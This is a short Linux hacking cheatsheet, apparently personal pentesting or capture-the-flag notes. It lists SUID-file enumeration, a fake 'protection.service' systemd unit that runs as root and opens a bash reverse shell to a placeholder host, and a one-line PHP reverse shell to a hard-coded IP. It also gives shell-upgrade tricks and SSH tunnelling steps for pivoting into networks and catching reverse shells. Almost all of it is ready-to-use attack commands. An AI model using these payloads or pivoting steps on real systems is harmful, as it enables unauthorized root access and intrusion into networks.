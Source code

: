 # Linux Hacking Cheatsheet

## Find SUID bits
`find / -perm -u=s -type f 2>/dev/null`
`find / -user root -perm -4000 -exec ls -ldb {} \;`

## Priv Esc systemctl with user access
_Create protection.service file in writable directory_
```
[Unit]
Discription=Does very important stuff mmmkay

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1'

[Install]
WantedBy=multi-user.target
```

## Escaping no tty shell 
`/usr/bin/script -qc /bin/bash /dev/null`

_try ctrl + z_

`stty raw -echo`

`fg`

`export TERM=xterm #autocomplete`

## Find human readable strings in binary
`strings /usr/bin/menu`

## PHP reverse shell
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/172.30.10.210/443 0>&1'");
```

## Grep IPs out of file
`grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" file.txt`

## Search for keyword
`grep -ri "word" /`

## Edit Wifi Connections
`nmtui`

_or_

`nmcli`

## Spin up webserver
`python -m SimpleHTTPServer 80`

## SSH Port Forwarding

`ssh -D localhost:9999 -f -N root@172.30.72.97 -p 40384`

__*edit proxychains .conf file to connect over socks5 127.0.0.1 9999__

_or_

~C "if you already have an SSH session"

-R 8081:172.24.0.2:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
<KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80
Now you can access 172.24.0.2:80, which you didn't have direct access to


-L 8083:127.0.0.1:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)
<KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it